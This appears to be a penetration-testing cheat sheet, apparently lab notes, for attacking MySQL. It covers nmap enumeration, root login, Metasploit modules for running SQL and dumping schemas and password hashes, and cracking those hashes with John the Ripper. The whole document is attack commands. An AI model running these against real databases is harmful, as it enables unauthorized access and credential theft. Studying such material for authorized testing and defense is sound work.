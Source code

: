 # MySQL

## Enumeration with MySQL


```
nmap --script mysql-enum <ip_addr>
```

```
mysql -h 10.10.248.226 -u root -p [ --ssl-mode=DISABLED | --skip-ssl ]
```

## SQL with Metasploit

```
msf6> use auxiliary/admin/mysql/mysql_sql
msf6> set RHOSTS <ip_addr>
msf6> set USERNAME <username>
msf6> set PASSWORD <password>
msf6> set SQL "SELECT * FROM ..."
```
## Dumping the MySQL Schema
```
msf6> use auxiliary/scanner/mysql/mysql_schemadump
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6> set RHOSTS <ip_addr>
msf6> set USERNAME <username>
msf6> set PASSWORD <password>
```
## Dumping Password Hashes
```
msf6> use auxiliary/scanner/mysql/mysql_hashdump
msf6> set RHOSTS <ip_addr>
msf6> set USERNAME <username>
msf6> set PASSWORD <password>
```
## Cracking the MySQL hash with John the Ripper
```
echo 'username:<hash>' > hash.txt
john hash.txt
```
